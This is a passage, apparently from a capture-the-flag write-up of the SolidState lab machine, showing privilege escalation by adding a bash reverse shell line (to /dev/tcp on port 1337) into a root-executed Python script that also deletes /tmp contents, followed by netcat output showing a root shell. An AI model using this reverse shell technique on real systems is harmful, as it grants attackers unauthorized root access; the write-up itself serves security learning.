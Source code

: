 The script is executed as root. Let's add a reverse shell line in `/opt/tmp.py`:

```python
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

os.system("bash -c '/bin/bash -i >& /dev/tcp/10.10.14.7/1337 0>&1'")
```

After a while:

```
$ nc -lnvp 1337
root@solidstate:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@solidstate:~# whoami
whoami
root
```